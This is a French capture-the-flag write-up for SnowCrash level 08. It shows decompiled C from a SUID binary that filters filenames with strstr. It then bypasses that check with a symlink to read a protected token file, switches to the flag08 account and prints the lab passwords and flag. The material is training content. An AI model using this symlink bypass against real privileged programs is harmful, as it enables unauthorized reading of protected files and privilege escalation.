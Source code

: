 # Niveau 08 : Contournement des vérifications de nom de fichier

## Analyse de la vulnérabilité

En se connectant en tant que `level08`, nous avons trouvé les fichiers suivants dans le répertoire personnel :

```console
level08@SnowCrash:~$ ls -l
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

Cela a montré :

- Un binaire exécutable `level08` avec le bit SUID activé (appartenant à `flag08`).
- Un fichier nommé `token` avec des permissions strictes (lisible uniquement par `flag08`).

## Analyse du Binaire

En utilisant Ghidra pour décompiler le binaire `level08`, l'extrait de code C suivant révèle que le programme tente d'empêcher l'accès aux fichiers contenant "token" dans leur nom en utilisant `strstr`.

```c
  // Vérifie si le nom de fichier contient "token"
  pcVar1 = strstr(argv[1], "token");
  if (pcVar1 != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(1);
    }
  // Ouvre le fichier (étape vulnérable)
  fd = open(argv[1], O_RDONLY);
  // ... lit et affiche le contenu du fichier ...
```

Le binaire a le bit SUID activé, ce qui signifie qu'il s'exécute avec les privilèges de son propriétaire (`flag08`), ce qui lui permet de lire des fichiers auxquels l'utilisateur actuel (`level08`) ne peut pas accéder directement.

## La Vulnérabilité

La vulnérabilité réside dans la vérification naïve de la chaîne de caractères : le programme vérifie seulement si la chaîne "token" apparaît dans l'argument du nom de fichier, et non si le fichier auquel on accède est réellement le fichier `token`.

C'est un problème de sécurité classique où la validation du chemin est effectuée sur la chaîne du nom de fichier plutôt que sur l'identité réelle du fichier (inode).

## Exploitation

Nous pouvons contourner cette vérification en créant un lien symbolique vers le fichier `token` avec un nom qui ne contient pas la chaîne "token" :

```console
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/nekot
level08@SnowCrash:~$ ./level08 /tmp/nekot
quif5eloekouj29ke0vouxean
```

- `ln` : Crée des liens entre les fichiers.
- `-s` : Crée un lien symbolique (symlink) au lieu d'un lien physique. Un lien symbolique est comme un raccourci qui pointe vers un autre fichier.

## Pourquoi cela fonctionne

1. Le lien symbolique `/tmp/nekot` pointe vers le fichier `token` réel.
2. Lorsque `level08` vérifie le nom de fichier, il voit "nekot" qui ne contient pas "token".
3. La vérification passe, et le programme procède à l'ouverture du fichier.
4. À cause du bit SUID, le programme ouvre le fichier avec les privilèges de `flag08`.
5. Après avoir ouvert le fichier, le programme lit et affiche son contenu.

C'est un exemple classique de la différence entre la validation du nom d'une ressource et la validation de la ressource elle-même, un piège de sécurité courant.

## Jeton

Après avoir lu le fichier `token`, nous avons obtenu : `quif5eloekouj29ke0vouxean`

C'est le mot de passe pour l'utilisateur `flag08`, pas le jeton réel pour le niveau. Pour obtenir le jeton :

```console
level08@SnowCrash:~$ su flag08
Password: quif5eloekouj29ke0vouxean
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

Le jeton réel pour le niveau 08 est : `25749xKZ8L7DkSCwJkT9dyv6f`

Ce jeton permet d'accéder au compte utilisateur `level09`.

## Leçon de Sécurité

Ce niveau démontre plusieurs concepts de sécurité importants :

1. Vulnérabilités de traversée de répertoire (Path traversal).
2. L'importance d'une validation correcte des fichiers.
3. Comment les liens symboliques peuvent être utilisés pour contourner des vérifications de sécurité naïves.
4. Les risques associés aux binaires SUID combinés à une validation d'entrée inadéquate.
